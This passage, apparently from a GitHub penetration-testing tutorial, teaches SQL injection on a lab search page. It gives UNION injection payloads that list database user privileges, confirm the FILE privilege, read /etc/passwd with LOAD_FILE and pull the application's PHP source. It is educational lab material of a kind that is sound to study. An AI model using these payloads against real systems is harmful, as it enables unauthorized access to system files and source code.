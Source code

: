 </p>

> The query returns `Y`, which __means YES, indicating superuser privileges__.

#### Dumping all user privileges.
We can also dump other privileges we have directly from the schema, with the following query:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
From here, we can add WHERE grantee="'root'@'localhost'" to only show our current user root privileges. Our payload would be:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
> And we see all of the possible privileges given to our current user: 

<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/89debdf6-abd0-44d7-b4e8-b30f6f95a88c" width="500" alt="Sublime's custom image"/>
</p>

> __We see that the `FILE` privilege is listed for our user__, __enabling us to read files and potentially even write files__. Thus, we can proceed with attempting to [read files](#reading-os-files).

## Reading OS Files.
### LOAD_FILE.

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. <br />
The `LOAD_FILE()` function can be used in MariaDB / MySQL to read data from files. 
The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:
```sql
SELECT LOAD_FILE('/etc/passwd');
```
> __Note:__ We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

Similar to how we have been using a UNION injection, we can use the above query:
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/9baf6a25-3b9f-41ca-a604-f898f4d73a91" width="500" alt="Sublime's custom image"/>
</p>

> We were able to successfully read the contents of the passwd file through the SQL injection. This can be potentially used to leak the application source code as well.


### Reading the web Source Code.

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```
